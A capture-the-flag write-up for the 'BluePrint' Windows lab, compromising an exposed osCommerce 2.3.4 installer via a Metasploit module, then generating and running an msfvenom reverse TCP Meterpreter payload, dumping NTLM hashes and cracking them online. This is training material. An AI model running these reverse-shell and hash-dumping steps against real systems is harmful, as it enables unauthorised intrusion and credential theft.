# BluePrint --- Writeup

**Difficulty:** Easy
**Operating System:** Windows

---

## Reconnaissance

### Initial Setup

Add the target hostname to `/etc/hosts`:




---

### Port Enumeration

``` bash
nmap -p- blueprint.lab -sC -sV --min-rate 500 -o ports.txt
```






The scan identified several Windows services and a possible vulnerable web application exposed on port `8080`.

`oscomerce-2.3.4`


---

## Web Application Enumeration

Browse to:

``` text
http://blueprint.lab:8080/
```




Directory browsing reveals an oscommerce-2.3.4 installation:

``` text
/oscommerce-2.3.4/
```




The vulnerable version must have /install yet on service
``` text
/oscommerce-2.3.4/catalog/install/
```




**Finding:** An exposed oscommerce-2.3.4 installer may allow unauthenticated code execution.


---

## Initial Access

Search Metasploit for oscommerce-2.3.4 modules:

``` text
search oscommerce
```



The module used for this service is:

``` text
exploit/multi/http/oscommerce_installer_unauth_code_exec
```

---

### Module Configuration



set options:



**Result:** A Meterpreter session is opened. The initial session is
limited and does not provide the expected interactive shell
functionality.

Per example:




---

## Obtaining a Functional Meterpreter Session

Generate a Windows Meterpreter reverse TCP payload:

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f exe -o shell.exe
```



Upload the executable through the existing Meterpreter session:

``` bash
upload -f shell.exe
```



Start a handler in another Metasploit session:



Execute the uploaded payload from the original session:

``` bash
execute -f shell.exe
```



The new Meterpreter session reports:

``` text
NT AUTHORITY\SYSTEM
```

**Result:** A Meterpreter session with SYSTEM privileges is obtained.


---

## NTLM Hash Extraction

With SYSTEM-level access, use Meterpreter's `hashdump` command to extract NTLM hashes:

``` text
hashdump
```



The output includes local account password hashes, including the
Lab account's NTLM hash.

**Finding:** Local NTLM hashes can be extracted with SYSTEM privileges.

---

## Password Recovery

Submit the relevant NTLM hash to CrackStation for lookup:


REFERER:https://crackstation.net/

The hash is successfully matched to its plaintext password.

**Result:** Password recovered. {REDACTED}

---

## Root Flag

Navigate to the Administrator desktop:

``` bash
cd C:\Users\Administrator\Desktop
```



**Result:** Root flag obtained.

---
> Made by [NonamesecX](https://github.com/NonamesecX) | For educational purposes only

